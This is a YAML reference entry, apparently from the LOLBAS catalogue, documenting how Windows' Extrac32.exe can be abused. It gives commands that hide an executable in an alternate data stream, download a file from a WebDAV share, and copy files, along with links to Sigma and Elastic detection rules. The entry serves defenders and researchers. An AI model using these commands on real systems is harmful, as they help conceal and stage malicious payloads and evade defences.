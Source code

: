 ```yaml
---
Name: Extrac32.exe
Description: Extract to ADS, copy or overwrite a file with Extrac32.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: Copy the source file to the destination file and overwrite it.
    Usecase: Download file from UNC/WEBDav
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32.exe /C C:\Windows\System32\calc.exe C:\Users\user\Desktop\calc.exe
    Description: Command for copying calc.exe to another folder
    Usecase: Copy file
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\extrac32.exe
  - Path: C:\Windows\SysWOW64\extrac32.exe
Code_Sample:
  - Code:
Detection:
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32_ads.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://twitter.com/egre55/status/985994639202283520
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Hai Vaknin(Lux
    Handle: '@VakninHai'
  - Person: Tamir Yehuda
    Handle: '@tim8288'
---
```

